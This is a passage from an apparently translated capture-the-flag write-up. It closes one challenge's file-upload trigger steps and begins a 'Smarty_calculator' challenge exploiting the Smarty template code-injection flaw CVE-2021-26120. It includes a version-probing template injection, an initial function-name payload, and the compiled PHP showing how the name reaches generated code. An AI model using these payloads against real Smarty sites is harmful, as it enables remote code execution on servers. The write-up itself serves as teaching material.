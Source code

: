 Then use the modified file to access `http://eci-2zehsthmgb5z68m80j4g.cloudeci1.icunqiu.com/album/imgupload` to upload the file, then access `http://eci-2zehsthmgb5z68m80j4g.cloudeci1.icunqiu.com/album/imgdelete`, and enter `/var/www/public/img/59901a7488e9011cd161f102d9430895.png` to trigger the vulnerability.

<div align=center><img src="./images/8.png"></div>

# Smarty_calculator
## Question analysis
I still visited the question link/www.zip to get the question source code, added `Cookie: login=1` and `POST {$smarty.version}`, and successfully got the version information. Since the question said that the developer modified the template rules themselves, I pulled `Smarty 3.1.39` here for comparison, and found that the regular rules were modified.

<div align=center><img src="./images/9.png"></div>

<div align=center><img src="./images/10.png"></div>

<div align=center><img src="./images/11.png"></div>

After searching for the question information, I found that there are vulnerabilities that can be exploited. The `Smarty_Internal_Runtime_TplFunction`Sandbox Escape`PHP` code injection vulnerability (CVE-2021-26120), refer to [GitHub Update](https://github.com/smarty-php/smarty/commit/290aee6db33403a4b9426b572b79a990232b31dd).

Since the `Smarty` class cannot correctly filter the `name` attribute `tplFunctions` when compiling the template syntax, the `Smarty_Internal_Runtime_TplFunction` class when defining cannot correctly filter the `name`attacker can execute code remotely by injecting `Payload`.

<div align=center><img src="./images/12.png"></div>

But this vulnerability is different from this vulnerability, and it needs to be bypassed. First, just `POST` one data is `data={function name='(){};'}{/function}`

```php
<?php
/* Smarty version 3.1.39, created on 2022-03-22 23:35:26
  from 'cca2ce857d642a4c0875c01a8508fdfe6fb1889f' */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.39',
  'unifunc' => 'content_6239ecbe814d21_96774455',
  'has_nocache_code' => false,
  'file_dependency' =>
  array (
  ),
  'includes' =>
  array (
  ),
),false)) {
function content_6239ecbe814d21_96774455 (Smarty_Internal_Template $_smarty_tpl) {
$_smarty_tpl->smarty->ext->_tplFunction->registerTplFunctions($_smarty_tpl, array (
  '(){};' =>
  array (
    'compiled_filepath' => 'C:\\Tools\\phpstudy_pro\\WWW\\html\\templates_c\\cca2ce857d642a4c0875c01a8508fdfe6fb1889f_0.string.php',
    'uid' => 'cca2ce857d642a4c0875c01a8508fdfe6fb1889f',
    'call_name' => 'smarty_template_function_(){};_18679747696239ecbe74eee5_05027020',
  ),
));
}
/* smarty_template_function_(){};_18679747696239ecbe74eee5_05027020 */
```